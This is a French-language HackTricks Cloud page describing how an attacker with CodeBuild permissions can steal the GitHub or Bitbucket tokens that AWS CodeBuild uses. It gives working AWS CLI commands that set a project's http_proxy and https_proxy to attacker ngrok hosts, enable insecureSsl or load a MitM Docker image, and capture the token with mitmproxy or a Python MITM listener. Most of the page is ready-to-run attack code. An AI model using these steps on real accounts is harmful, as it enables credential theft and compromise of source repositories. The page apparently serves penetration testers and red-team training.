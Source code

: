 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Récupérer les jetons configurés Github/Bitbucket

Tout d'abord, vérifiez s'il y a des identifiants source configurés que vous pourriez leak :
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Si vous constatez que l'authentification par exemple à Github est configurée dans le compte, vous pouvez **exfiltrer** cet **accès** (**token GH ou token OAuth**) en faisant en sorte que Codebuild **utilise une image docker spécifique** pour exécuter la construction du projet.

À cette fin, vous pourriez **créer un nouveau projet Codebuild** ou modifier l'**environnement** d'un projet existant pour définir l'**image Docker**.

L'image Docker que vous pourriez utiliser est [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). C'est une image Docker très basique qui définira les **variables d'environnement `https_proxy`**, **`http_proxy`** et **`SSL_CERT_FILE`**. Cela vous permettra d'intercepter la plupart du trafic de l'hôte indiqué dans **`https_proxy`** et **`http_proxy`** et de faire confiance au CERT SSL indiqué dans **`SSL_CERT_FILE`**.

1. **Créer et télécharger votre propre image Docker MitM**
* Suivez les instructions du dépôt pour définir votre adresse IP proxy et configurer votre certificat SSL et **construire l'image docker**.
* **NE PAS CONFIGURER `http_proxy`** pour ne pas intercepter les requêtes vers le point de terminaison des métadonnées.
* Vous pourriez utiliser **`ngrok`** comme `ngrok tcp 4444` pour définir le proxy vers votre hôte.
* Une fois que vous avez construit l'image Docker, **téléchargez-la dans un dépôt public** (Dockerhub, ECR...)
2. **Définir l'environnement**
* Créez un **nouveau projet Codebuild** ou **modifiez** l'environnement d'un projet existant.
* Définissez le projet pour utiliser l'**image Docker précédemment générée**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Définir le proxy MitM sur votre hôte**

* Comme indiqué dans le **dépôt Github**, vous pourriez utiliser quelque chose comme :
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
La **version de mitmproxy utilisée était 9.0.1**, il a été signalé qu'avec la version 10, cela pourrait ne pas fonctionner.
{% endhint %}

4. **Exécutez la construction et capturez les identifiants**

*   Vous pouvez voir le token dans l'en-tête **Authorization** :

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Cela pourrait également être fait depuis l'aws cli avec quelque chose comme

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

Les projets **Codebuild** ont un paramètre appelé **`insecureSsl`** qui est caché dans le web et que vous ne pouvez changer que depuis l'API.\
L'activation de cela permet à Codebuild de se connecter au dépôt **sans vérifier le certificat** proposé par la plateforme.

* Tout d'abord, vous devez énumérer la configuration actuelle avec quelque chose comme :
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Ensuite, avec les informations recueillies, vous pouvez mettre à jour le paramètre du projet **`insecureSsl`** à **`True`**. Voici un exemple de ma mise à jour d'un projet, remarquez le **`insecureSsl=True`** à la fin (c'est la seule chose que vous devez changer dans la configuration recueillie).
* De plus, ajoutez également les variables d'environnement **http\_proxy** et **https\_proxy** pointant vers votre tcp ngrok comme : 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Ensuite, exécutez l'exemple de base depuis [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) dans le port indiqué par les variables de proxy (http\_proxy et https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Enfin, cliquez sur **Build the project**, les **identifiants** seront **envoyés en texte clair** (base64) au port mitm :

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### ~~Via le protocole HTTP~~

{% hint style="success" %}
**Cette vulnérabilité a été corrigée par AWS à un moment donné durant la semaine du 20 février 2023 (je pense que c'était vendredi). Donc un attaquant ne peut plus en abuser :)**
{% endhint %}

Un attaquant avec **des permissions élevées dans un CodeBuild pourrait fuir le token Github/Bitbucket** configuré ou si les permissions étaient configurées via OAuth, le **token OAuth temporaire utilisé pour accéder au code**.

* Un attaquant pourrait ajouter les variables d'environnement **http\_proxy** et **https\_proxy** au projet CodeBuild pointant vers sa machine (par exemple `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Ensuite, changez l'URL du dépôt github pour utiliser HTTP au lieu de HTTPS, par exemple : `http://github.com/carlospolop-forks/TestActions`
* Ensuite, exécutez l'exemple de base depuis [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) sur le port pointé par les variables proxy (http\_proxy et https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Enfin, cliquez sur **Build the project**, les **identifiants** seront **envoyés en texte clair** (base64) au port mitm :

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Maintenant, un attaquant pourra utiliser le token depuis sa machine, lister tous les privilèges qu'il a et (ab)user plus facilement que d'utiliser directement le service CodeBuild.
{% endhint %}

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
